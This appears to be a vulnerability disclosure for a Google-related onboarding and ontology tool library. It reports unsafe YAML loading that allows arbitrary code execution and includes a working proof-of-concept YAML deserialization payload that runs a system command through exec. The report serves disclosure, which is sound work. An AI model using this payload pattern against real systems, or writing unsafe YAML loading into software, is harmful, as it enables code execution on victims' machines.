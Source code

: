 # Description

`Onboarding Tools` hosts a set of libraries and command line tool for automating parts of the onboarding workflow. It gives the user the ability to apply rule-based mapping automation, ingestion of multiple source files, review loadsheet consistency, and validate entity definitions against a pre-defined ontology (consistent with Google's Digital Facilities), which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

```python
import programs.ontology.ontology as ontology

payload = """
cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""
open('config.yml','w+').write(payload)

ontology.load_yaml('config.yml')
```
* `python3 exploit.py`



# Impact

Arbitary Code Execution
